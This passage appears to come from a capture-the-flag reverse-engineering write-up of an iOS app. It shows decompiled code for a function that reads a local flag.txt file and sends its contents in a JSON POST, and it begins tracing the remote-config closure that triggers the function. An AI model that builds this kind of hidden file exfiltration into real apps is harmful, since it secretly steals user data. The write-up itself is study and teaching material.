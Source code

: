```C
      local_280 = puVar3;
      (*(code *)PTR__objc_release_000140c8)(local_290);
      (*(code *)PTR__objc_release_000140c8)(local_288);
      _objc_msgSend(local_280,"resume");
      (*(code *)PTR__objc_release_000140c8)(local_280);
      _swift_bridgeObjectRelease(local_1e8);
      (*local_278)(local_148,local_170);
      (*local_c0)(local_118,local_c8);
      _swift_bridgeObjectRelease(local_1b0);
      (*local_c0)(local_b0,local_c8);
      goto LAB_0000bbcc;
    }
    $$outlined_destroy_of_Foundation.URL?(local_138);
    _swift_bridgeObjectRelease(local_1b0);
  }
  (*local_c0)(local_b0,local_c8);
LAB_0000bbcc:
  if (*(int *)PTR____stack_chk_guard_00014108 - local_38 != 0) {
                    /* WARNING: Subroutine does not return */
    ___stack_chk_fail(*(int *)PTR____stack_chk_guard_00014108 - local_38);
  }
  return;
```

This is the **vulnerable function**

1. Gets **Documents** and builds `.../Documents/flag.txt`.

2. **Reads the contents** of `flag.txt` into a String (UTF-8).

3. Constructs a `URLRequest` to (...).

4. **POST** with `Content-Type: application/json` and body `{"flag": "<content>"}` via `NSJSONSerialization`.

5. Creates `dataTaskWithRequest` and r`esume()` → **exfiltrates the flag**.

### Closure
So, **how trigger this function**?

Let's search in the program for the text **`NSJSONSerialization`**!

We can found this **closure**:

- `$$closure_#1_@Sendable_(Foundation.Data?,__C.NSURLResponse?,Swift.Error?)_->_()_in_BackSync.fet chRemoteConfig()_->_()`
```C
  local_38 = *(int *)PTR____stack_chk_guard_00014108;
  local_58 = (undefined *)0x0;
  local_50 = 0;
  local_f8 = (undefined *)0x0;
  local_128 = (char *)0x0;
  local_120 = (void *)0x0;
  local_e0 = param_4;
  local_d8 = param_3;
  local_48 = param_1.unknown;
  local_40 = param_2;
  $outlined_copy();
  if ((param_2 & 0xf000000000000000) == 0xf000000000000000) goto LAB_00005898;
  local_60 = 0;
  puVar5 = &_OBJC_CLASS_$_NSJSONSerialization;
  local_58 = param_1.unknown;
  local_50 = param_2;
  _objc_opt_self();
  _Var3.value = (__int8)param_1.unknown;
  outlined_copy(_Var3);
  pNVar6 = Foundation::Data::_bridgeToObjectiveC(param_1);
```